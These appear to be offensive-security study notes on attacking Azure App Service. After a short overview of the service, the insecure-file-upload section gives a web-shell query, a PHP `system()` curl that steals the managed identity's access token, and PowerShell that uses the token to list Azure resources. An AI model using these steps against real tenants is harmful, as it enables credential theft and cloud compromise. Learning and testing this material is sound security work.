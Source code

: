 **Azure App Service is an HTTP-based service for hosting web applications, REST APIs, and mobile back ends.**

- Supports both Windows and Linux environments.
- .NET, .NET Core, Java, Ruby, Node.js, PHP, or Python are supported.
- Each app runs inside a sandbox but isolation depends upon App Service plans:
  - Apps in Free and Shared tiers run on shared VMs.
  - Apps in Standard and Premium tiers run on dedicated VMs.



Windows apps (not running in Windows containers) have local drives, UNC shares, outbound network connectivity (unless restricted), read access to Registry, and event logs.

- In the above case, it is also possible to run a PowerShell script and command shell. But the privileges will be of the low-privileges worker process that uses a random application pool identity.


### App Service Abuse


While there are default security features available with App Service (sandboxing/isolation, encrypted communication, etc.), vulnerabilities in the code deployed are abusable.

> The classic web app vulnerabilities like SQL Injection, Insecure file upload, Injection attacks, etc. do not disappear magically

We will discuss the following:
```
- Insecure File upload
- Server Side Template Injection
- OS Command Injection
```


#### Insecure File Upload

> if the app service uses a Managed Identity, we may have the ability to have interesting permissions on other Azure resources.


After compromising an app service, we can request access tokens for the managed identity.

If the app service contains environment variables **IDENTITY_HEADER** and **IDENTITY_ENDPOINT**, it has a managed identity:
```sh
?cmd=env
```

Get the access token:
```php
<?php 
  system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```


Check the resources available to the managed identity (using the access token and client ID):
```powershell
$token = 'eyJ0eX...'
Connect-AzAccount -AccessToken $token -AccountId <clientID>
Get-AzResource
```
